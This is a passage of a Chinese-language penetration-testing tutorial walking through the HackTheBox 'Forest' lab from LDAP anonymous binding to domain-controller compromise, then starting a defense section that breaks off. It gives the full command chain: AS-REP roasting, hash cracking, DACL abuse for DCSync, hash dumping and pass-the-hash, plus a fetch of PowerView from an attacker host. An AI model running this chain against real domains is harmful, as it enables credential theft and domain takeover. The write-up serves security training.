





## 案例八：HackTheBox Active Directory靶机渗透——从LDAP匿名绑定到域控制器沦陷

### 8.1 概述

Active Directory（AD）是企业级网络身份认证和访问控制的核心基础设施，全球90%以上的大中型企业使用Microsoft AD管理用户、计算机和权限。正因如此，AD安全实战能力是渗透测试工程师必须掌握的硬技能——**不懂AD渗透，就不算真正懂内网安全**。

本案例中，小张选择HackTheBox平台上一台名为**Forest**（IP: 10.10.10.161）的Windows靶机进行练习。Forest模拟了一个典型的企业AD域环境（域控服务器），是HTB公认的**AD渗透入门黄金靶机**——它覆盖了从信息收集、Kerberos攻击到域控权限获取的完整攻击链，难度适中但实战价值极高。

> **靶机背景**：Forest运行Windows Server 2016 Standard，域名为`htb.local`。该场景模拟了一个配置不当的AD环境，包含LDAP匿名绑定、未设置预认证保护的账户等经典漏洞。完成本靶机相当于掌握了一套"从外网到域控"的完整方法论。

**为什么选Forest作为AD入门靶机？**

| 维度 | 说明 |
|------|------|
| 攻击链完整性 | 涵盖信息收集→凭证获取→权限提升→域控沦陷全链路 |
| 技术多样性 | LDAP匿名绑定、AS-REP Roasting、ACL滥用、DCSync、Pass-the-Hash |
| 难度适中 | 不需要高级技巧（如NTLM中继、约束委派），适合入门 |
| 真实性高 | 模拟的配置错误在真实企业环境中极为常见 |

### 8.2 前置知识：Kerberos认证与AD攻击基础

在动手之前，理解底层的认证机制至关重要。没有理论知识支撑的渗透只是"照着命令复制粘贴"。

#### 8.2.1 Kerberos认证协议的五个关键角色

Kerberos是AD域的核心认证协议，理解其交互流程是理解所有Kerberos攻击（AS-REP Roasting、Kerberoasting、黄金票据、白银票据等）的前提。



**关键环节详解**：

| 步骤 | 名称 | 描述 | 安全要点 |
|------|------|------|----------|
| ① | AS-REQ | 客户端向KDC发送认证请求，包含用户名和时间戳 | **明文用户名**——攻击者可枚举有效账户 |
| ② | AS-REP | KDC返回TGT，用用户密码Hash加密 | 若账户**未设置预认证**（UF_DONT_REQUIRE_PREAUTH），攻击者可离线破解加密部分 |
| ③ | TGS-REQ | 客户端用TGT请求访问特定服务的票据 | 请求中包含目标服务的SPN |
| ④ | TGS-REP | KDC返回服务票据，用服务账户密码Hash加密 | 任何域用户都可请求任意服务的票据 → **Kerberoasting** |
| ⑤ | AP-REQ | 客户端向目标服务出示票据 | 服务验证票据有效性 |
| ⑥ | AP-REP | 服务确认认证完成 | 可选的双向认证 |

> **为什么要理解这个流程？** 当代AD渗透的绝大多数攻击手法——AS-REP Roasting、Kerberoasting、黄金票据、白银票据、DCSync——本质都是对Kerberos协议不同阶段的密码学材料进行窃取或伪造。不理解上述流程，就无法理解攻击为什么工作、如何检测、如何防御。

#### 8.2.2 本案例涉及的核心攻击技术原理

| 攻击技术 | 利用阶段 | 原理 | 所需条件 |
|----------|---------|------|----------|
| **LDAP匿名绑定** | 信息收集 | 未正确配置的DC允许匿名用户查询AD数据库 | DC启用匿名LDAP查询（默认关闭，但配置遗漏常见） |
| **AS-REP Roasting** | 凭证获取 | 账户设置了`UF_DONT_REQUIRE_PREAUTH`标志（即不需要Kerberos预认证） | 存在未预认证保护的账户 |
| **DCSync攻击** | 权限提升 | 利用MS-DRSR协议模拟域控制器复制AD数据库 | 拥有`DS-Replication-Get-Changes`权限（WriteDACL委派可授予） |
| **Pass-the-Hash** | 横向移动 | 使用NTLM哈希直接认证，无需明文密码 | 具有管理员NTLM哈希及SMB/RPC访问权限 |

### 8.3 环境准备

#### 8.3.1 靶机信息

| 项目 | 值 |
|------|-----|
| 靶机名称 | Forest |
| 平台 | HackTheBox |
| IP地址 | 10.10.10.161 |
| 操作系统 | Windows Server 2016 Standard |
| 域名 | htb.local |
| 难度等级 | 中等（Medium） |
| 通关目标 | 获取 `user.txt` 和 `root.txt` |
| 标签 | Active Directory, Kerberos, ACL滥用 |

#### 8.3.2 攻击者所需工具清单

| 工具 | 用途 | 安装方式 |
|------|------|----------|
| **nmap** | 端口扫描和服务识别 | `apt install nmap` |
| **ldapsearch** | LDAP信息收集 | `apt install ldap-utils` |
| **Impacket套件** | Kerberos攻击、DCSync、PTH | `pip3 install impacket` |
| **hashcat** | AS-REP哈希破解 | 官网下载或 `apt install hashcat` |
| **evil-winrm** | WinRM远程管理 | `gem install evil-winrm` |
| **Kerbrute** | 用户名枚举（可选） | GitHub Release下载 |
| **BloodHound** | AD攻击路径可视化分析 | `apt install bloodhound` 或Docker部署 |

**推荐工作流**：建议使用Kali Linux作为攻击机（所有工具预装），或使用Parrot OS。如果使用自己配置的Ubuntu/Debian，需通过pip和apt逐一安装上述工具。安装Impacket后，所有Impacket脚本位于`/usr/share/doc/python3-impacket/examples/`或`~/.local/bin/`目录下。

**Impacket核心脚本速查**：

| 脚本 | 功能 | 典型用法 |
|------|------|----------|
| `GetNPUsers.py` | AS-REP Roasting | 枚举并获取未预认证账户的哈希 |
| `GetUserSPNs.py` | Kerberoasting | 获取服务账户的TGS票据 |
| `secretsdump.py` | DCSync / SAM转储 | 导出NTLM哈希、Kerberos密钥 |
| `psexec.py` | PTH远程执行 | 通过SMB获取System Shell |
| `wmiexec.py` | WMI远程执行 | 半交互式Shell，更隐蔽 |
| `dacledit.py` | ACL编辑 | 修改域对象DACL（注入DCSync权限） |
| `ntlmrelayx.py` | NTLM中继 | Relay到LDAP/SMB/HTTP |

### 8.4 信息收集阶段——地毯式侦察

信息收集决定了攻击效率的上限。小张按照"端口→服务→账户→域结构"四个维度逐层深入。

#### 8.4.1 全端口扫描

```bash
nmap -sC -sV -p- 10.10.10.161 -oA forest_scan
```

**扫描参数解释**：
- `-sC`：使用默认NSE脚本（安全检测、服务指纹）
- `-sV`：探测服务版本
- `-p-`：扫描全部65535个端口（注意：全端口扫描较慢，也可先扫常见端口再补全）
- `-oA forest_scan`：输出三种格式（nmap/gnmap/xml）便于后续分析

**扫描结果**：

```text
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601
88/tcp    open  kerberos     Microsoft Windows Kerberos
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds Windows Server 2008 R2 SP1 microsoft-ds
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 6.1
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Global Catalog)
3269/tcp  open  tcpwrapped
```

#### 8.4.2 开放服务的攻击面分析

| 端口 | 服务 | 攻击面分析 |
|------|------|-----------|
| 53/DNS | Microsoft DNS | 可枚举域内DNS记录，尝试区域传输 |
| **88/Kerberos** | KDC | 存在的攻击：AS-REP Roasting、Kerberoasting、黄金票据 |
| 135/RPC | MS-RPC | RPC枚举（域用户、组、权限），但需凭证 |
| 139/NetBIOS | SMB over NetBIOS | 老旧协议，可利用SMB漏洞 |
| **389/LDAP** | LDAP | **关键入口**——可匿名枚举域信息 |
| **445/SMB** | SMB | 枚举共享、空会话攻击、SMBGhost等 |
| 464/kpasswd | Kerberos密码变更 | 暴力破解/密码喷射可能 |
| 3268/LDAP GC | 全局编录 | 加速跨域LDAP查询 |

**小张的分析**：端口88（Kerberos）、389（LDAP）和445（SMB）的存在确认这是一台**域控制器**。尤其是Kerberos和LDAP服务同时开放，是AD域控的典型特征。LDAP端口开放且未立即要求认证，提示可能存在匿名绑定漏洞——这是最有可能的突破口。

**域控制器的端口指纹识别**：在真实渗透中，判断目标是否为域控是信息收集的关键决策点。以下端口组合可快速确认：

| 端口组合 | 判定 |
|----------|------|
| 88 + 389 + 445 + 3268 | **高概率域控**（Kerberos + LDAP + SMB + 全局编录） |
| 53 + 88 + 389 + 445 | **确认域控**（DNS服务是域控的标配） |
| 仅 389 + 445 | 可能是成员服务器运行LDAP，需进一步确认 |
| 仅 445 | 可能只是普通Windows文件服务器 |

#### 8.4.3 LDAP匿名绑定枚举

```bash
# 测试LDAP匿名绑定
ldapsearch -x -h 10.10.10.161 -b "DC=htb,DC=local"

# 获取到大量结果，说明匿名绑定成功
# 进一步枚举所有域用户
ldapsearch -x -h 10.10.10.161 -b "DC=htb,DC=local" \
  "(objectClass=user)" sAMAccountName userPrincipalName > users_raw.txt

# 提取用户名列表
grep "sAMAccountName:" users_raw.txt | cut -d' ' -f2 | grep -v '^$' > users.txt
```

**匿名绑定成功的关键意义**：LDAP匿名绑定是AD配置中**最容易被忽视的安全漏洞**之一。默认情况下，Windows Server 2003及更早版本允许匿名LDAP访问；从Windows Server 2008开始，微软默认限制匿名访问，但许多企业在迁移或混合环境中仍会保留此配置。一旦允许匿名LDAP查询，攻击者可以枚举出：
- 所有域用户账户名（包括管理员账户）
- 组织结构（OU、Group）
- 计算机账户
- 服务账户信息（SPN、约束委派等）

> **LDAP搜索过滤器语法**：`(objectClass=user)`是AD中最基础的用户查询过滤器。常用的过滤器还包括：
> - `(&(objectClass=user)(objectCategory=person))` — 排除计算机账户和系统账户
> - `(adminCount=1)` — 查找受保护的管理员组账户
> - `(servicePrincipalName=*)` — 枚举所有配置了SPN的服务账户（Kerberoasting目标）
> - `(&(objectCategory=computer)(operatingSystem=*Server*))` — 枚举服务器

**为什么匿名LDAP绑定存在？** 常见原因：
1. **历史遗留**：从Windows Server 2003升级后未重新配置访问控制
2. **Exchange安装**：Exchange安装过程可能修改LDAP访问策略
3. **应用兼容性**：某些旧版应用（如旧版SCCM、监控系统）依赖匿名LDAP查询
4. **配置错误**：管理员在调试时开启后忘记关闭

#### 8.4.4 枚举域内更多信息

匿名绑定不仅限于用户枚举。小张进一步提取了关键的域信息：

```bash
# 枚举域内计算机
ldapsearch -x -h 10.10.10.161 -b "DC=htb,DC=local" \
  "(objectClass=computer)" cn operatingSystem > computers.txt

# 枚举SPN（Kerberoasting目标）
ldapsearch -x -h 10.10.10.161 -b "DC=htb,DC=local" \
  "(servicePrincipalName=*)" servicePrincipalName sAMAccountName > spns.txt

# 获取域控信息
ldapsearch -x -h 10.10.10.161 -b "DC=htb,DC=local" \
  "(primaryGroupID=516)" cn operatingSystem

# 枚举组信息
ldapsearch -x -h 10.10.10.161 -b "DC=htb,DC=local" \
  "(objectClass=group)" cn member > groups.txt
```

### 8.5 攻击阶段——从无凭证到域控

获得用户列表后，小张逐一检查每个账户是否存在配置漏洞。

#### 8.5.1 AS-REP Roasting——利用未预认证保护账户

**原理回顾**：在Kerberos AS-REQ阶段，如果账户设置了`UF_DONT_REQUIRE_PREAUTH`标志位（即不需要预认证），KDC会直接返回一个用该账户密码NTLM哈希加密的AS-REP数据包。攻击者即使不知道密码，也可以获取到这个加密数据包并离线破解。



**检查所有账户的预认证配置**：

```bash
# 使用Impacket的GetNPUsers.py逐一检查
python3 GetNPUsers.py htb.local/ -usersfile users.txt -no-pass -dc-ip 10.10.10.161

# 成功！
$krb5asrep$23$svc-alfresco@HTB.LOCAL:<hash>
```

输出结果显示账户 **svc-alfresco** （服务账户，名称暗示与Alfresco内容管理系统相关）没有预认证保护。

> **为什么服务账户更容易成为目标？** 服务账户通常运行在后台，不需要交互式登录，管理员为了"简化配置"可能取消其预认证要求。历史上许多应用（如某些Java应用服务器、旧版SharePoint）的安装指南直接建议关闭预认证，这种"最佳实践"的遗毒至今仍在。

**关于AS-REP哈希的格式说明**：

| 部分 | 含义 |
|------|------|
| `$krb5asrep$23$` | Kerberos AS-REP类型，加密类型23（RC4-HMAC） |
| `svc-alfresco@HTB.LOCAL` | 用户主体名称（UPN） |
| 后面的哈希串 | 加密后的会话密钥（待破解） |

**加密类型对照**：

| 编号 | 算法 | 破解难度 | hashcat模式 |
|------|------|---------|------------|
| 17 | AES128 | 高 | 19700 |
| 18 | AES256 | 很高 | 19800 |
| 23 | RC4-HMAC | **低**（本案例） | 18200 |
| 24 | RC4-HMAC-EXP | 低 | 18300 |

> **为什么RC4-HMAC最易破解？** RC4-HMAC虽然仍被AD支持，但微软已标记为弱加密。许多旧系统默认使用RC4，而RC4的哈希结构比AES更易受字典攻击。hashcat对RC4-HMAC（模式18200）的破解速度通常是AES的3-5倍。

#### 8.5.2 哈希破解——从加密数据到明文密码

```bash
# 将上述哈希保存到hash.txt
echo '$krb5asrep$23$svc-alfresco@HTB.LOCAL:<hash>' > hash.txt

# 使用hashcat破解（模式18200=Kerberos AS-REP）
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force

# 破解结果
$krb5asrep$23$svc-alfresco@HTB.LOCAL:<hash>:s3rvice
```

**获取密码：s3rvice**

**破解策略分析**：

| 策略 | 适用场景 | 本案例 |
|------|----------|--------|
| 字典攻击（rockyou.txt） | 弱密码，如`Password123` | ✅ 成功：s3rvice在rockyou字典中 |
| 规则爆破（--rules） | 密码有变形如`your_password` | 可作为备选 |
| 掩码攻击（-a 3） | 密码符合特定模式 | 需要更多算力 |
| 彩虹表（--stdout） | 大型哈希链 | 实际较少使用 |

**性能调优建议**：
- 使用`-w 4`最高工作负载配置
- 使用`-O`（优化内核）加速已知模式
- 多GPU场景使用`-d 1,2`指定设备
- 如果破解卡住，尝试`--force`跳过设备检查

**更高效的破解替代方案**：如果hashcat的破解速度不理想，可以使用`john`（John the Ripper）作为备选：

```bash
# 使用john破解AS-REP哈希
echo '$krb5asrep$23$svc-alfresco@HTB.LOCAL:<hash>' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep hash.txt
```

> **密码s3rvice的教训**：这是一个极其典型的服务账户弱密码——"service"的变形（s替换为3），不仅短（7位）、字典词，而且与服务名（alfresco）没有相关性。如果企业强制要求12+位复杂密码，则破解难度指数级上升。

#### 8.5.3 获取初始访问——evil-winrm登录

```bash
# 使用evil-winrm连接
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

# 成功登录后
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> whoami
htb\svc-alfresco

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> type ..\Desktop\user.txt
HTB{...user_flag...}
```

**为什么是evil-winrm而不是其他工具？**

| 远程管理协议 | 默认端口 | 是否需要管理员权限 | 特点 |
|-------------|----------|------------------|------|
| **WinRM (evil-winrm)** | 5985/5986 | **不需要** | 非管理员也可登录，日志较少 |
| PsExec (Impacket) | 445/SMB | 需要管理员权限 | 写服务+运行，更易被检测 |
| RDP (xfreerdp) | 3389 | 一般不需要，但需授权 | 交互式桌面，但可能受限 |
| WMI (wmiexec.py) | 135/RPC | 需要一定权限 | 半交互式，日志较全 |

**关键发现**：svc-alfresco**不是**域管理员，只是一个普通服务账户。能够获取user.txt是因为它在用户桌面上，但要拿到root.txt必须进行权限提升。

**登录后的初步信息收集**：

```powershell
# 查看当前用户身份
*Evil-WinRM* PS> whoami /all

# 关键信息：查看当前用户的组成员和权限
# 注意：这里会显示很多信息，重点看Group Privileges和Effective Permissions

# 查看域内机器
*Evil-WinRM* PS> net group "Domain Controllers" /domain

# 查看域管理员组
*Evil-WinRM* PS> net group "Domain Admins" /domain
```

#### 8.5.4 权限提升——利用ACL委派执行DCSync

这是整个攻击链中最精妙的环节，也是最需要理解AD权限模型的部分。

**检查当前用户的组成员信息**：

```powershell
# 在evil-winrm会话中
net user svc-alfresco /domain

# 输出关键信息（简化）
Group Memberships       *Domain Users
                        *Service Accounts
```

**递归组继承链分析**（寻找隐蔽权限提升路径）：



这个继承链的发现是整个靶机的**核心考点**。svc-alfresco虽然只是一个普通服务账户，但通过多层嵌套的组继承，最终继承了**Exchange Windows Permissions**组的权限——该组在默认的Exchange安装过程中被授予了域级别的`WriteDACL`权限。

> **WriteDACL权限的含义**：拥有该权限的对象可以修改域对象的**访问控制列表（ACL）**。这意味着svc-alfresco可以把自己（或任意主体）添加到拥有DCSync权限的主体列表中。这是AD权限委派中最容易被滥用的权限之一。

**利用WriteDACL授予自身DCSync权限**：

方法一：使用Impacket的`dacledit.py`（推荐）：

```bash
# 使用dacledit.py添加DCSync权限
python3 dacledit.py -action write -rights DCSync \
  -principal svc-alfresco -target-dn "DC=htb,DC=local" \
  htb.local/svc-alfresco:s3rvice -dc-ip 10.10.10.161

# 成功后输出：Successfully modified DACL for DC=htb,DC=local
```

方法二：使用PowerView（在evil-winrm会话中）：

```powershell
# 需要先加载PowerView脚本（可通过evil-winrm的-upload功能传入）
# 从攻击机上传PowerView.ps1
*Evil-WinRM* PS> Invoke-WebRequest -Uri "http://<攻击机IP>/PowerView.ps1" -OutFile PowerView.ps1
*Evil-WinRM* PS> . .\PowerView.ps1

# 添加DCSync特权
Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" `
  -PrincipalIdentity svc-alfresco `
  -Rights DCSync
```

> **dacledit.py使用细节**：该工具位于Impacket示例目录中。旧版Impacket可能不存在此工具，需升级至0.10.0+版本。如果确实找不到，可使用`ntlmrelayx.py`的`--escalate-user`模块通过LDAP中继来实现相同效果。

**BloodHound辅助分析**（可选但推荐）：

在真实渗透中，发现上述ACL继承链通常使用BloodHound工具。它可以将AD对象关系图化，自动发现攻击路径：

```bash
# 使用SharpHound从攻击机（或通过evil-winrm执行）采集数据
# 在evil-winrm会话中
*Evil-WinRM* PS> .\SharpHound.exe -c All --zipfilename bloodhound.zip

# 下载到攻击机
*Evil-WinRM* PS> download bloodhound.zip

# 在攻击机上启动BloodHound GUI
# neo4j console &  # 启动图数据库
# bloodhound  # 启动GUI
# 导入zip文件后搜索 svc-alfresco 的攻击路径
```

**BloodHound查询**：在BloodHound的搜索栏输入`svc-alfresco`，选择"Shortest Path to Domain Admin"即可看到从svc-alfresco到域管理员的最短路径，其中会明确展示组嵌套关系和ACL权限。

#### 8.5.5 DCSync攻击——导出台账数据库

DCSync攻击利用了MS-DRSR（Directory Replication Service Remote Protocol）协议——这是域控制器之间复制AD数据库的标准协议。拥有`DS-Replication-Get-Changes`和`DS-Replication-Get-Changes-All`权限的主体可以模拟域控，从真实的域控上请求AD数据库复制。



```bash
# 使用Impacket的secretsdump.py执行DCSync
python3 secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -just-dc

# 关键输出
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<krbtgt_hash>:::
svc-alfresco:1106:aad3b435b51404eeaad3b435b51404ee:<svc_alfresco_hash>:::
...
```

**DCSync攻击可以获取的数据**：

| 数据类型 | 位置 | 用途 |
|----------|------|------|
| **NTLM哈希** (LM:NTLM:格式) | SAM数据库 | Pass-the-Hash、密码喷射 |
| **Kerberos密钥** | krbtgt账户 | 黄金票据伪造 |
| **Kerberos票据** | 所有服务账户 | Kerberoasting（明文） |
| **域信任密码** | 信任关系 | 跨域攻击 |

**参数说明**：
- `-just-dc`：仅导出NTDS（NTLM哈希和Kerberos密钥）
- `-just-dc-ntlm`：仅NTLM哈希（更简洁）
- `-user Administrator`：只导出一个用户（免去大量输出）
- `-pwd-last-set`：显示密码最后设置时间（辅助弱密码评估）

**DCSync所需的两个关键权限**：

| 权限 | AD GUID | 说明 |
|------|---------|------|
| DS-Replication-Get-Changes | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 | 允许请求AD复制 |
| DS-Replication-Get-Changes-All | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 | 允许获取所有属性（包括密码哈希） |

> **DCSync是red team的"黄金武器"**：它是迄今为止最有效的AD域渗透技术之一——不需要在目标系统上部署任何恶意代码、不需要开启新端口、完全使用合法协议通信，因此传统EDR难以检测。微软在2023年将DCSync列为"高级持续性威胁（APT）的典型TTP"。

#### 8.5.6 Pass-the-Hash获取域控权限

获取Administrator的NTLM哈希后，无需破解密码即可直接认证：

```bash
# 使用Impacket的psexec.py
python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

# 或使用wmiexec.py（更隐蔽）
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

# 获取root.txt
C:\Users\Administrator\Desktop> type root.txt
HTB{...root_flag...}
```

**哈希格式解析**：

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
              │   └─ LM Hash（全为零表示禁用LM） ───┘└─────── NTLM Hash ───────────────┘
              └─ RID（500 = 内置管理员）
```

**LM哈希全零的含义**：`aad3b435b51404eeaad3b435b51404ee`是LM协议的"no password"标记。在现代Windows系统中LM哈希默认禁用，因此哈希格式中LM部分全为零是正常现象——只需要使用NTLM部分（第4段）即可完成Pass-the-Hash。

**Pass-the-Hash的变体选择**：

| 工具 | 原理 | 交互性 | 隐蔽性 | 适用场景 |
|------|------|--------|--------|---------|
| `psexec.py` | 创建Windows服务并执行 | 完全交互 | 低（创建服务痕迹明显） | 快速验证 |
| `wmiexec.py` | 通过WMI执行命令 | 半交互 | 中（WMI日志较多） | 日常操作 |
| `smbexec.py` | 通过SMB管道执行 | 半交互 | 低 | 调试用 |
| `atexec.py` | 通过计划任务执行 | 非交互 | 高（一次性执行） | 低交互批量操作 |

### 8.6 攻击链全景复盘



**攻击链的五个关键成功因素**：

1. **LDAP匿名绑定未关闭** → 允许无凭证枚举域用户
2. **svc-alfresco账户未启用预认证** → AS-REP可Roast
3. **密码s3rvice属于rockyou字典词** → 可破解
4. **嵌套组继承WriteDACL权限** → 权限叠加链过深，管理员未审查
5. **DCSync可被委派** → 最终域控沦陷

**如果其中任一环节被阻断，攻击链就会断裂**。这就引出了下一节的内容。

### 8.7 防御建议——从Blue Team视角看本案例

作为渗透测试工程师，理解攻击方法只是第一步；更重要的是能从蓝队视角提出加固建议。

#### 8.7.1 针对本案例攻击链的防护措施

| 攻击环节 | 防护措施 | 实施难度 | 效果 |
|----------|---------|---------|------|
| **LDAP匿名绑定** | 配置域控禁止匿名LDAP查询 | 低（组策略配置） | 阻断第一步信息收集 |
| **AS-REP Roasting** | 启用Kerberos预认证（检测`UF_DONT_REQUIRE_PREAUTH`账户） | 低（定期审计） | 阻断离线哈希破解 |
| **弱密码** | 强制复杂密码策略（12+位）+Passfilt.dll过滤常见词 | 中 | 大幅增加破解难度 |
| **ACL委派过深** | 定期审计嵌套组成员关系和ACL权限 | 中（使用BloodHound/ADAudit） | 发现隐蔽权限提升路径 |
| **DCSync检测** | 监控域控上4618/4662事件日志（异常复制行为） | 中（SIEM规则） | 在数据导出阶段告警 |
| **敏感账户监控** | 对Administrator启用蜂蜜令牌（honeytoken） | 高 | 追踪攻击者行为 |

#### 8.7.2 三条核心加固原则

**原则一：最小权限原则**

